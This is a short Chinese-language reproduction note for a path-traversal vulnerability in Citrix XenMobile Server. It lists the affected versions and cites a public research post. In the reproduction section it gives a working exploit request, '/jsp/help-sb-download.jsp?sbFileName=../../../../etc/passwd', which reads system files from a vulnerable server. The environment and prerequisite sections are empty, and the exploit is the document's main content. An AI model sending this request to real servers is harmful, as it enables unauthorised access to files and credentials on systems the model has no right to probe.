

# 0x00 软件介绍
XenMobile：Citrix Endpoint Management（也称为XenMobile）用于管理员工的移动设备和移动应用程序。通常，由于Active Directory集成，它部署在网络外围并可以访问内部网络。这使XenMobile成为安全研究的主要目标。

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：无

# 0x02 环境搭建
无

# 0x03 利用条件
无

# 0x04 影响版本
Citrix XenMobile Server 10.12 before RP2  
Citrix XenMobile Server 10.11 before RP4  
Citrix XenMobile Server 10.10 before RP6  
Citrix XenMobile Server before 10.9 RP5

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

直接在ip后加如下路径
```
/jsp/help-sb-download.jsp?sbFileName=../../../../etc/passwd
```
如
```
http://www.example.com/jsp/help-sb-download.jsp?sbFileName=../../../../etc/passwd
```
如下图  
  


# 0x06 踩坑记录
无

# 0x07 参考链接
https://swarm.ptsecurity.com/path-traversal-on-citrix-xenmobile-server/
